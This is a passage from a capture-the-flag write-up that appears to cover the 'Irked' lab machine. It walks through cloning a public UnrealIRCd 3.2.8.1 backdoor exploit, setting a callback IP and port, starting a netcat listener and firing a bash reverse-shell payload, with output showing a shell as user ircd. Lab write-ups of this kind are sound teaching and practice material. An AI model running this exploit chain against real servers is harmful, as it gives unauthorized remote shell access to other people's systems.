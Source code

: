 ```
git clone https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor.git
```

### Low Privilege Shell

Running the command I can see what arguments it needs for this exploit to run properly.

```
python3 exploit.py
```

```
root@kali-[/opt/UnrealIRCd-3.2.8.1-Backdoor]python3 exploit.py                                
usage: exploit.py [-h] -payload {python,netcat,bash} ip port
exploit.py: error: the following arguments are required: ip, port, -payload
```

So I need the IP address, the port number, and use `-payload` and specify what I want, either `python, netcat,` or `bash`. I'm going to use bash. Before I do anything else though I also need to change the `local_ip`  and `local_port` variables to my own IP and a port I will be listening on. I chose 443 as the port I will be listening on. 

```
vim exploit.py
```

```
# Sets the local ip and port (address and port to listen on)
local_ip = '10.10.14.36'  # CHANGE THIS
local_port = '443'  # CHANGE THIS 
```

I went ahead and saved the file. Now I can set up my Netcat listener on port 443.

```
nc -lvnp 443
```

With my Netcat listener set up, I can run the exploit:

```
python3 exploit.py 10.10.10.117 6697 -payload bash
```

```
root@kali-[/opt/UnrealIRCd-3.2.8.1-Backdoor]python3 exploit.py 10.10.10.117 6697 -payload bash
Exploit sent successfully!
```

Looking back at my Netcat listener I got a connection!

```
root@kali-[~]nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.117] 37515
bash: cannot set terminal process group (639): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ whoami && id
whoami && id
ircd
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```
